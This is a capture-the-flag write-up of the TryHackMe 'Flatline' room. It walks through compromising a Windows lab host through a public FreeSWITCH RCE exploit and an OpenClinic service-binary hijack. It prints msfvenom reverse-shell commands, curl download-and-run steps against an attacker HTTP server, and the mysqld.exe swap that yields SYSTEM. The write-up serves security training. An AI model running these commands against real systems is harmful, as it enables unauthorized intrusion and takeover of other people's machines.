# Room: [Flatline](https://tryhackme.com/room/flatline)

## Overview
This write‑up covers the *Flatline* room on [TryHackMe](https://tryhackme.com), created by [Nekrotic](https://tryhackme.com/p/Nekrotic).

The objective of this room is to exploit OpenClinic and escalate privileges to gain full control of the Windows machine.

## Setup
- **Tools used:** `nmap`,`searchsploit`,`msfvenom`
- **Techniques:** `network enumeration`,`public exploit identification`,`payload generation`
- **Notes:** This room was a useful reminder that not all remote command execution is equal, and that a reliable shell is often essential for meaningful post‑exploitation.     
The room also required managing multiple terminal sessions simultaneously, which added some complexity to the workflow. I adapted the original PoC to generate my own Windows reverse shell payload.        
For clarity, I assume that a listener is running for each reverse shell used, even though I do not explicitly document each listener setup to avoid unnecessary repetition.

---

## Methodology

#### Enumeration

I began by scanning the target with `nmap` to identify exposed services.

My initial scan returned very few open ports, so I performed a full port sweep using the `-p-` flag. This revealed an additional service that was not detected during the first pass.

```bash
nmap -p- $TARGET
```



There were two open ports:
* 3389 with ms-wbt-server (RDP)
* 8021 with ftp-proxy

Since no web service was exposed, I continued enumeration by running default scripts and service detection against each port individually.

I initially focused on port `3389`, assuming it might provide the entry point.

```bash
nmap -sVC $TARGET -p 3389
```

The scan revealed the hostname `WIN-EOM4PK0578N` and reported the `RDP` service version as `10.0.17763`.



I repeated the same service‑detection scan against the remaining open port.

```bash
nmap -sVC $TARGET -p 8021
```

This revealed that the service running on port `8021` was `FreeSWITCH`,which provided me a clear direction for further research and exploitation.



Searching for `FreeSWITCH` in `searchsploit` returned two available exploits. I chose to proceed with the non‑Metasploit PoC to better understand the vulnerability and maintain a manual workflow.



I downloaded the selected exploit to my machine using the following command:

```bash
searchploit -m 4779
```



#### Exploitation

With the exploit downloaded, I reviewed the PoC and executed it with `python3` to understand its behavior.

The script provided RCE on the target, and I confirmed successful code execution by running `whoami`, which returned the user `nekrotic`.



I then began exploring the filesystem and enumerating the environment.      
Listing the contents of `C:\Users` provided an initial overview of the user accounts present on the system and helped guide further investigation into accessible directories and potential privilege‑escalation paths.



I ended up finding the user flag on Nekrotic's Desktop.

     


While reviewing the contents of `C:\`, I noticed a folder named `projects`. Its lowercase naming stood out from the typical Windows directory conventions, suggesting it may have been created manually by a user rather than by the system.

Inside this folder, I found a single directory named `openclinic`.



The `openclinic` directory contained several subfolders, and its structure resembled that of an installed application rather than a personal project.



Searching for `openclinic` returned an exploit that specifically targeted the application and offered a potential LPE vector.



#### Privilege EScalation

I downloaded the exploit to my machine using:

```bash
searchploit -m 50448
```



Reading through the downloaded PoC clarified how the vulnerability was intended to be exploited.        
This was the point where I initially lost significant time, as I assumed the issue was a misunderstanding of the PoC rather than the limitations of my RCE. Only later did it become clear that the exploit required a stable reverse shell to function properly.



Following the structure of the PoC, I generated a payload and used it to establish a more reliable session as nekrotic.     
I then saved it in a dedicated directory named `payload` and stored it under the filename `reverse‑shell`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > root/payload/reverse-shell
```



After that I changed directpries to /root/payload and used python to serve the folder to the network on port 8080

After preparing the payload, I moved into the directory where it was stored and made it accessible to the target by serving the folder over the network, for that, I used a simple built‑in `Python` module to start an `HTTP server` on port `8080`, allowing the target system to retrieve the file directly.

```python
python3 -m http.server 8080
```



After making the payload available over `HTTP`, I used the previously obtained RCE to retrieve it onto the target system using the `curl` command.

```bash
curl http://<IP>:<PORT>/revserse-shell -o "C:\projects\wrs.exe"
```

The file was saved into the projects directory under `wrs.exe`.     
During this step I initially overlooked the need for a proper `.exe` extension, which caused some confusion while testing, but renaming the file resolved the issue. 

Once the payload was in place, I executed it through the same RCE mechanism to establish a stable shell on the target.

```powershell
C:\projects\wrs.exe
```



After the stable shell connected back to my listener, I returned to my attacking machine to prepare the privilege‑escalation payload described in the PoC, generating this new payload following the naming convention and structure outlined and ensuring it matched what the exploit expected.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > /var/www/html/mysqld_evil.exe
```

With the payload created, I moved into the directory used for serving files and made it accessible to the target using `Python`.

```python
python3 -m http.server 8080
```



now as nekrotic on the reverseh shell i had set up i used curl t download the payload into C:\projects\openclinic\mariadb\bin


Now that I had a stable shell as nekrotic, I used it to retrieve the LPE payload from my HTTP server.       
I downloaded it directly into `C:\projects\openclinic\mariadb\bin`.

```powershell
curl http://<IP>:<PORT>/mysqld_evil.exe -o "C:\projects\openclinic\mariadb\bin\mysqld_evil.exe"
```



Once the payload was in place, the next step was to prepare the environment so the exploit could take effect.

I renamed the original `mysqld.exe` binary to a backup file and then renamed the payload to match the expected executable name.

        


After replacing the executable, I restarted the target machine to trigger the modified service.

```powershell
shutdown /r /t 1
```



After a couple seconds, the listenr i set up for this shell picked up the connection as nt authority/system

Once the system rebooted, the listener I had prepared for this stage received a new connection.

This time, the session was running with `NT AUTHORITY\SYSTEM` privileges, confirming that the privilege‑escalation vector had executed successfully.



With full system access, I navigated to `C:\Users\Nekrotic\Desktop` and retrieved the root flag.



---
